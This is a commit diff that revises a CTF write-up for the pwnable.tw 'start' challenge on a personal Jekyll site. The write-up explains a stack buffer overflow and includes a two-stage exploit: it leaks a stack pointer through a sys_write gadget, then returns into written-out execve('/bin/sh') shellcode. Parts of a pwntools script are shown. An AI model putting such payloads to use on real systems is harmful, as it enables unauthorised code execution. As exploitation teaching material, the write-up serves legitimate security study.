

Before and after one commit to HimanshuP601/HimanshuP601.github.io, a Jekyll site: the page built from _writeups/pwnable.tw-start.md, in a window 1280 px wide and 1400 px high, scrolled down 1601 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated a Writeup.

````diff
--- a/_writeups/pwnable.tw-start.md
+++ b/_writeups/pwnable.tw-start.md
@@ -8,11 +8,28 @@ summary: "Introduction to pwnable.tw: Leaking a stack pointer to execute shellco
 
 **Flag:** `FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}`
 
-## Approach (Step by Step)
+## Binary Analysis
 
-1. The challenge provides a binary named `start`. Running `file` and `checksec` on it reveals it's a 32-bit statically linked executable with almost all binary protections disabled (No Canary, NX disabled, No PIE).
-2. The binary is extremely small (564 bytes) and only contains `_start` and `_exit` routines.
-3. Disassembling `_start` in `gdb`:
+First, we analyze the binary's basic properties and protections using `file` and `checksec`.
+
+```bash
+$ file start
+start: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), statically linked, not stripped
+
+$ checksec start
+    Arch:       i386-32-little
+    RELRO:      No RELRO
+    Stack:      No canary found
+    NX:         NX disabled
+    PIE:        No PIE (0x8048000)
+    Stripped:   No
+```
+
+The binary is a very small (564 bytes) 32-bit statically linked executable with almost all binary protections disabled. The lack of NX (No-eXecute) means we can execute shellcode placed on the stack. The lack of PIE and Stack Canary makes buffer overflows trivial to exploit.
+
+## Static Analysis
+
+Disassembling `_start` in `gdb` reveals a minimal program containing only two routines: `_start` and `_exit`.
 
 ```nasm
 0x8048060 <_start>:    push   esp
@@ -39,24 +56,60 @@ summary: "Introduction to pwnable.tw: Leaking a stack pointer to execute shellco
 0x804809c <_start+60>: ret                   ; jump to return address
 ```
 
-4. The program pushes the string `"Let's start the CTF:"` onto the stack (20 bytes), then calls `sys_write` to print it.
-5. It then calls `sys_read` to read up to 60 bytes into the stack buffer.
-6. After reading, it adds `0x14` (20 bytes) to `esp`, effectively bypassing the string we printed, and executes `ret`. The address it returns to is the `_exit` address pushed at `0x8048061`.
-7. **Vulnerability:** Since we can read 60 bytes but the buffer is only 20 bytes away from the return address, we have a classic buffer overflow. We need `20` bytes of padding to reach the return address, leaving us `60 - 24 = 36` bytes for our shellcode.
+1. The program pushes the string `"Let's start the CTF:"` onto the stack in chunks (20 bytes total).
+2. It calls `sys_write` to print the string to `stdout`.
+3. It calls `sys_read` to read up to 60 bytes into the stack buffer starting at `esp`.
+4. After reading, it adds `0x14` (20 bytes) to `esp`, effectively bypassing the string we printed, and executes `ret`. The address it returns to is the `_exit` address pushed at `0x8048061`.
+
+## The Vulnerability
+
+Since we can read 60 bytes but the buffer is only 20 bytes away from the return address, we have a classic buffer overflow. We need `20` bytes of padding to overwrite the return address. This leaves us `60 - 24 = 36` bytes for our shellcode on the stack, which is plenty for a `/bin/sh` execve payload.
+
+## Stack Analysis (ESP Dynamics)
+
+By analyzing the stack in `gdb` during execution, we can see exactly how the stack shifts:
+
+1. **Initial State:** Upon entry to `_start`, the first instruction `push esp` pushes the original stack pointer to the stack. This saved pointer is crucial for our leak later.
+2. **String Push:** Pushing `"Let's start the CTF:"` moves `esp` down by 20 bytes (`0x14`).
+3. **The Overflow:** When `sys_read` occurs, it writes to `esp`. If we write 20 bytes of 'A's, we fill the space meant for the string. The next 4 bytes we write will overwrite the return address (`_exit` pushed at `_start+1`).
+4. **The Pivot:** After `sys_read`, the program executes `add esp, 0x14` effectively removing the string from the stack, and then hits `ret`. The `ret` instruction pops the overridden return address into `EIP`.
+
+## Exploitation
 
 ### Stage 1: Stack Leak
 Since ASLR is likely enabled on the remote server and the stack address changes, we cannot jump to our shellcode directly. We need a stack leak first.
-We can overwrite the return address with the address of the `sys_write` call within the binary itself (`0x08048087`).
+
+We can overwrite the return address with the address of the `sys_write` call within the binary itself (`0x08048087`), creating a small ROP chain.
 
 ```python
+leak_gadget = 0x08048087
 payload  = b'A' * 20
-payload += p32(0x08048087)
+payload += p32(leak_gadget)
 ```
-When `ret` is executed, it jumps back to `mov ecx, esp`, but `esp` now points further down the stack to a saved stack pointer. The `write` syscall will leak 20 bytes from the stack including this stack address, and then the program will execute `sys_read` again, waiting for a second payload!
+
+When `ret` is executed, it jumps back to `mov ecx, esp`. Because `ret` popped the return address off the stack, `esp` now points to the original saved stack pointer (which was pushed at `0x8048060` with `push esp`). The `write` syscall will leak 20 bytes from the stack including this stack address, and then the program will execute `sys_read` again, waiting for a second payload!
 
 ### Stage 2: Shellcode Execution
-By receiving the first 4 bytes from the leak, we can calculate the exact address where our shellcode will be stored (`esp + 20`).
-We can then send a second payload that overwrites the return address with the address of our shellcode, followed by the shellcode itself.
+
+From the leaked 20 bytes, the first 4 bytes are our leaked stack pointer. Because `sys_read` will be called again with this leaked `esp` as the buffer, we can calculate exactly where our shellcode will land.
+
+We overwrite the return address again, this time pointing it to `esp + 0x14` (which is right after the return address itself), followed by our shellcode.
+
+#### Shellcode Breakdown
+The 25-byte shellcode used executes `execve("/bin/sh", NULL, NULL)`. It is built as follows:
+```nasm
+xor eax, eax       ; Clear eax
+push eax           ; Null terminator for string
+push 0x68732f2f    ; "hs//"
+push 0x6e69622f    ; "nib/"
+mov ebx, esp       ; ebx = pointer to "/bin//sh"
+push eax           ; Push NULL
+push ebx           ; Push pointer to "/bin//sh"
+mov ecx, esp       ; ecx = pointer to array [pointer to string, NULL]
+xor edx, edx       ; edx = NULL
+mov al, 0xb        ; syscall number for execve (11)
+int 0x80           ; Execute syscall
+```
 
 ```python
 shellcode_addr = esp + 0x14
@@ -65,7 +118,7 @@ payload += p32(shellcode_addr)
 payload += shellcode
 ```
 
-### Exploit Script
+### Final Exploit Script
 
 ```python
 from pwn import *
@@ -98,7 +151,7 @@ esp = u32(leak[:4])
 
 log.success(f'Leaked ESP: {hex(esp)}')
 
-# Shellcode will be after RET
+# Shellcode will be located right after the RET address
 shellcode_addr = esp + 0x14
 log.info(f'Shellcode addr: {hex(shellcode_addr)}')
 
````
Also changed, not shown: 11 other files.
